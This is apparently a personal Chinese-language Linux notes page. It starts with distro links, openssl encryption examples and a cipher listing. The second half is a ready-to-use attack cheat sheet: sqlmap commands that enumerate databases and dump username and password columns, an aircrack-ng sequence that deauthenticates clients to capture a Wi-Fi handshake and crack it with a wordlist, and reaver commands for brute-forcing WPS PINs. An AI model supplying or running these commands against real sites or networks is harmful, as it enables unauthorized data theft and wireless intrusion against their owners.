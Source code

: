 # [Home](../README.md)
## [Linux](https://www.apiref.com/linux-zh/linux-command-manual.html)

![linux](https://www.runoob.com/wp-content/uploads/2014/06/d0c50-linux2bfile2bsystem2bhierarchy.jpg)

### Linux发行版
- [Ubuntu](http://www.ubuntu.com/)
- [Fedora](http://fedoraproject.org/)
- [Debian](http://www.debian.org/)
- [CentOS](http://www.centos.org/)
- [Arch](https://www.archlinux.org/)
- [Kali](https://www.kali.org/)
- [ElementaryOS](https://elementary.io/zh_CN/)
- [Nitrux](https://nxos.org/)

### openssl
> 加密

```shell
echo '明文' | openssl aes-128-cbc -k "key" -base64
```

>解密

```shell
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | openssl aes-128-cbc -d -k "key" -base64
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | tr ' ' '\n' | openssl aes-128-cbc -d -k "key" -base64
```

```shell
#Standard commands
asn1parse         ca                ciphers           cms
crl               crl2pkcs7         dgst              dhparam
dsa               dsaparam          ec                ecparam
enc               engine            errstr            gendsa
genpkey           genrsa            help              list
nseq              ocsp              passwd            pkcs12
pkcs7             pkcs8             pkey              pkeyparam
pkeyutl           prime             rand              rehash
req               rsa               rsautl            s_client
s_server          s_time            sess_id           smime
speed             spkac             srp               storeutl
ts                verify            version           x509

#Message Digest commands (see the `dgst' command for more details)
blake2b512        blake2s256        gost              md4
md5               mdc2              rmd160            sha1
sha224            sha256            sha3-224          sha3-256
sha3-384          sha3-512          sha384            sha512
sha512-224        sha512-256        shake128          shake256
sm3

#Cipher commands (see the `enc' command for more details)
aes-128-cbc       aes-128-ecb       aes-192-cbc       aes-192-ecb
aes-256-cbc       aes-256-ecb       aria-128-cbc      aria-128-cfb
aria-128-cfb1     aria-128-cfb8     aria-128-ctr      aria-128-ecb
aria-128-ofb      aria-192-cbc      aria-192-cfb      aria-192-cfb1
aria-192-cfb8     aria-192-ctr      aria-192-ecb      aria-192-ofb
aria-256-cbc      aria-256-cfb      aria-256-cfb1     aria-256-cfb8
aria-256-ctr      aria-256-ecb      aria-256-ofb      base64
bf                bf-cbc            bf-cfb            bf-ecb
bf-ofb            camellia-128-cbc  camellia-128-ecb  camellia-192-cbc
camellia-192-ecb  camellia-256-cbc  camellia-256-ecb  cast
cast-cbc          cast5-cbc         cast5-cfb         cast5-ecb
cast5-ofb         des               des-cbc           des-cfb
des-ecb           des-ede           des-ede-cbc       des-ede-cfb
des-ede-ofb       des-ede3          des-ede3-cbc      des-ede3-cfb
des-ede3-ofb      des-ofb           des3              desx
rc2               rc2-40-cbc        rc2-64-cbc        rc2-cbc
rc2-cfb           rc2-ecb           rc2-ofb           rc4
rc4-40            seed              seed-cbc          seed-cfb
seed-ecb          seed-ofb          sm4-cbc           sm4-cfb
sm4-ctr           sm4-ecb           sm4-ofb           zlib
```
### SQL注入
```shell
sqlmap -u url --dbs --current-user	
sqlmap -u url --dbms mysql -D dbName --tables
sqlmap -u url --dbms mysql -T admin --columns
sqlmap -u url --dbms mysql -T admin -C field1, field2 --dump

sqlmap -u url?id=1
sqlmap -u url?id=1 --dbs
sqlmap -u url?id=1 --current-db		#列出当前使用的数据库名
sqlmap -u url?id=1 --tables -D "db_name"
sqlmap -u url?id=1 --columns -T "tb_name" -D "db_name"
sqlmap -u url?id=1 --dump -C "username, password" -T "tb_name" -D "db_name"

sqlmap -u url?id=1 --is-dbs #判断该注入点是否有管理员权限，true表示管理员
```

### wifi密码跑字典
```shell
airmon-ng check kill			#杀死进程
airmon-ng start wlan0			#是wlan0网卡开起monitor mode
airodump-ng wlan0mon			#查看附件wifi
airodump-ng --bssid mac地址 -c CH值 -w crack wlan0mon		#开始抓包

aireplay-ng --deauth 10 -a mac地址 -c 抓到的mac地址 wlan0mon
aircrack-ng -w 密码字典路径 crack-01.cap

airmon-ng stop wlan0mon		#关闭wlan0网卡monitor mode
```
### wifi跑pin码
```shell
airmon-ng start wlan0
wash -i wlan0mon
reaver -i wlan0mon -b mac地址 -S -N -vv -c CH值
```